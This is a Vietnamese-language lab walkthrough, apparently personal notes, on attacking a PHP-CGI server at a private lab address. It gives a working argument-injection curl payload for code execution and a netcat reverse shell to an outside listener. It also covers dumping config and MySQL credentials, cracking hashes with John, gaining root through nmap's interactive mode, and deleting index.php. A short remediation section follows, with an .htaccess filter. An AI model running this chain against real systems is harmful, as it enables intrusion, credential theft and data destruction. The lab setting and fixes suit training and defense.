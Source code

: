 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

- Xóa bộ nhớ đệm trước đó
```
rm ~/.john/john.pot
```

```
john --format=<format> hashes.txt
```

- Crack hash
```
john --wordlist=rockyou.txt --format=raw-md5 hash.txt
```

- Show 
```
john --show --format=raw-md5 hash.txt
```


## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

| Thành phần    | Giải thích dễ hiểu                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `find`        | Lệnh dùng để **tìm kiếm file/thư mục**.                                                                                                                       |
| `/`           | Bắt đầu tìm từ **gốc hệ thống** (toàn bộ máy – từ `/` trở đi).                                                                                                |
| `-perm -4000` | Tìm file có quyền **SUID (Set User ID)** được bật.<br>📌 "4000" là mã quyền dạng **octal** đại diện cho SUID.<br>✅ `-4000` nghĩa là **phải có đúng bit SUID** |
| `-type f`     | Chỉ tìm **file thông thường** (không tìm thư mục, symlink, v.v).                                                                                              |
| `2>/dev/null` | **Ẩn lỗi** (ví dụ lỗi "Permission denied" khi không đọc được thư mục nào đó).                                                                                 |


```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```

> - Bạn là người thường (www-data), muốn vào phòng VIP.
> - Có một người khác được cấp quyền root tên là nmap(/usr/bin/nmap)
> - Khi bạn nhờ robot làm giúp ("--interactive")
> - Bạn bảo: “Mở cửa phòng VIP giúp tôi nhé!” (!sh)
> - Robot dùng quyền của nó để mở cửa, vậy là bạn vào được(chạy dưới quyền root)!

## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục
## Xóa CGI
```
find / -name "php-cgi" 2>/dev/null
```

```
sudo rm -f /usr/bin/php-cgi
```

```
sudo rm /etc/alternatives/php-cgi
```

```
sudo rm -f /usr/lib/cgi-bin/php5
sudo rm -f /usr/lib/cgi-bin/php
```

```
sudo /etc/init.d/apache2 restart
```
### Cài mod_php
```
sudo apt-get update
sudo apt-get install libapache2-mod-php5
```

```
sudo /etc/init.d/apache2 restart
```


## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
